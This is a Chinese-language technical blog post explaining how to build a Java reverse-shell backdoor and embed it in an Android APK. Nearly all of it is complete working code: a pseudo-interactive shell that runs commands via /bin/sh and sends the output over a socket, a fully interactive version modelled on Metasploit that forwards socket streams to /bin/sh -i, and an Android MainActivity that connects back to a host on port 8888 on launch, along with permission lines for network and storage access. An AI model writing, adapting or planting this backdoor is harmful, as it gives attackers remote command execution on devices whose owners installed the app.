 ```yaml
---
title: JAVA 后门 shell_reverse_tcp 实现
date: 2020-12-25 00:00:00
categories:
- IOT
tags: arm
---
```


> 遇到情景是可以在android上安装任意apk，执行apk后有个反弹shell的效果。一般来说直接用msf就可以生成android后门，但不知为何在目标设备上无法正常使用，故决定自己编写一个简单的apk以完成反弹shell。最终实现两个纯JAVA版的shell_reverse_tcp，当然塞进apk也好使。开始自己完成了一个无法完全交互的shell，类似一句话木马那种伪tty。因为思路也是web的思路，执行->取结果字符串->发送结果字符串。后来参考msf的实现，人家是使用线程直接转发了启动shell的输入输出流到反弹的socket的输入输出流，不仅可以获得一个完全交互的shell，还省去了byte流转字符串的操作。这个其实就是和shellcode的思路一样了，类似dup socket的文件描述符到程序的输入输出流中。故其实这两种思路可以看成Web手和Pwn手的区别，没想到自己做了这么久的二进制还是Web思路占上风...

## 非真正交互

都是static方法，故使用的时候不需要new一个新的对象。因为是web思路，执行命令完成，读结果字符串，发结果字符串。所以执行流就是最好想的顺序执行，一步步往下走就行了，类似一句话：

- [JSP 一句话木马与防范](https://www.jianshu.com/p/19facabb5f29)
- [蚁剑改造计划之实现JSP一句话](https://xz.aliyun.com/t/7491)

```java
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.OutputStream;
import java.net.Socket;
import java.nio.charset.Charset;

public class Backdoor {
    public static String read_stream(InputStream in){
        try {
            StringBuilder sResultBuilder = new StringBuilder("");
            BufferedReader bufferedReader = new BufferedReader(
                    new InputStreamReader(in, Charset.defaultCharset()));
            String line = bufferedReader.readLine();
            if (line == null) return "";
            sResultBuilder.append(line);
            while (true) {
                line = bufferedReader.readLine();
                if (line == null)  break;
                else sResultBuilder.append('\n'+line);
            }
            return String.valueOf(sResultBuilder);
        }catch (IOException e) {
            e.printStackTrace();
        }
        return "";
    }

    public static String exec_cmd(String cmd){
        try {
            cmd = cmd.replaceAll("\n"," ") + " 2>&1 ;echo \n";
            String[] str = {"/bin/sh","-c",cmd};
            Process p = Runtime.getRuntime().exec(str);
            p.waitFor();
            return read_stream(p.getInputStream());
        }catch (IOException e) {
            e.printStackTrace();
        } catch (InterruptedException e) {
            e.printStackTrace();
        }
        return "";
    }

    public static void reverse_tcp(String ip,int port){
        try {
            Socket       socket   =   new Socket(ip,port);
            InputStream  in       =   socket.getInputStream();
            OutputStream out      =   socket.getOutputStream();
            out.write("[+] getshell\n".getBytes());
            byte[] b = new byte[4096];
            while(true){
                out.write("> ".getBytes());
                out.write(exec_cmd(new String(b,0,in.read(b))).getBytes());
            }
        } catch (IOException e) {
            e.printStackTrace();
        }catch (StringIndexOutOfBoundsException e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        reverse_tcp("127.0.0.1",8888);
    }
}
```

测试用法，本机监听8888端口，然后执行：

```
➜  javac Backdoor.java && java Backdoor
```

## 真正交互

- [metasploit-payloads/java/javapayload/src/main/java/javapayload/stage/Shell.java ](https://github.com/rapid7/metasploit-payloads/blob/master/java/javapayload/src/main/java/javapayload/stage/Shell.java)
- [metasploit-payloads/java/javapayload/src/main/java/javapayload/stage/StreamForwarder.java](https://github.com/rapid7/metasploit-payloads/blob/master/java/javapayload/src/main/java/javapayload/stage/StreamForwarder.java)

首先想到JAVA自己有没有类似流转发的功能呢？搜索到[java io 流重定向标准输入和输出](https://juejin.cn/post/6844903480713281550)，即JAVA的标准输入输出错误流是可以重定向的，但是没有找到可以重定向任意流的函数。故想到能不能重定向进程的输入输出流之后然后直接execve系统调用把整个进程换成`/bin/sh`，就完全的shellcode反弹思路。但是看起来java好像不能直接执行系统调用，网上给出的解决办法是写JNI。

所以还是按照msf思路，自己动手写流的转发。看完思路自己默写的时候可犯难了，为啥没有输出呢？调试发现程序卡在了第一个转发那，恍然大悟，人家是转发工作是用线程完成的。所以这种思路就是不是顺序执行啦，而是有几个线程在不停的将反弹的socket的输入输出转发到启动的shell进程的输入输出上，所以这还不太像shellcode，dup文件描述符那么一劳永逸...为了避免拆分文件，最终使用JAVA的内部类完成线程的编写：

```java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Backdoor {

    class forward extends Thread{
        private InputStream src;
        private OutputStream dst;

        public forward(InputStream src,OutputStream dst){
            this.src = src; this.dst = dst;
        }
        public void run(){
            try {
                final byte[] buf = new byte[4096];
                int length;
                while ((length = this.src.read(buf)) != -1) {
                    if (this.dst != null) {
                        this.dst.write(buf, 0, length);
                        if (this.src.available() == 0) {
                            this.dst.flush();
                        }
                    }
                }
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

    public void reverse_tcp(String ip,int port){
        try {
            Socket       socket   =   new Socket(ip,port);
            InputStream  in       =   socket.getInputStream();
            OutputStream out      =   socket.getOutputStream();

            out.write("[+] getshell\n".getBytes());
            String[] str = {"/bin/sh","-i"};

            Process p = Runtime.getRuntime().exec(str);
            new forward(in,p.getOutputStream()).start();
            new forward(p.getInputStream(),out).start();
            new forward(p.getErrorStream(),out).start();
            p.waitFor();
        } catch (IOException e) {
            e.printStackTrace();
        }catch (StringIndexOutOfBoundsException e) {
            e.printStackTrace();
        } catch (InterruptedException e) {
            e.printStackTrace();
        }
    }


   public static void main(String[] args) {
         new Backdoor().reverse_tcp("127.0.0.1",8888);
   }
}
```

测试用法，本机监听8888端口，然后执行：

```
➜  javac Backdoor.java && java Backdoor
```

## android中使用

**首先给APK加网络权限，千万别忘了**：

```xml
<uses-permission android:name="android.permission.INTERNET"/>
```

如果想让反弹的shell有权限干更多的事则需要多加权限，比如读写SD卡的权限：

```xml
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
```

然后将Backdoor这个类拷贝进工程中，并把`/bin/sh`换成`/system/bin/sh`，因为Andoid是禁止在主线程中使用网络操作，所以之后在程序目标处起一个新的线程即可：

```java
public class MainActivity extends Activity {

    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        new Thread(runnable).start();
    }
    Runnable runnable = new Runnable(){
        @Override
        public void run() {
             new Backdoor().reverse_tcp("192.168.1.152",8888);
            //Backdoor.reverse_tcp("192.168.1.152",8888);
        }
    };
```

编译，安装，运行，即可反弹shell。